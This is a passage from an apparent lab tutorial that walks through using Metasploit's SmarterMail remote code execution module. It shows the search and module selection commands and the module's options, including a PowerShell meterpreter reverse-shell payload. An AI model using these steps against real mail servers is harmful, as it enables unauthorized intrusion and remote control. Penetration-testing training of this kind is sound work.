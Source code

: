 To start with Metasploit we have to launch Metasploit. This can be done
with:
```bash
msfconsole
```

now have to find an exploit for smartermail.
using the following commmand:
```bash
search smartermail
```
You will get the following

![Smartermail search results](../../Assets/PwnToOwn/metasploit_smartermail.png)

now using the `use 0` command will select the smartermail exploit. To see what
we need to set to exploit the smartermail, We can use the `Show options` 
command

```bash
msf6 exploit(windows/http/smartermail_rce) > show options

Module options (exploit/windows/http/smartermail_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ENDPOINT   Servers          yes       Choose one of three exposed endpoints: Servers, Spool, and Mail. Example - tcp://127.0.0.1:17001/Servers
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9998             yes       SmarterMail default HTTP port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   TCP_PORT   17001            yes       SmarterMail default .NET remoting port
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```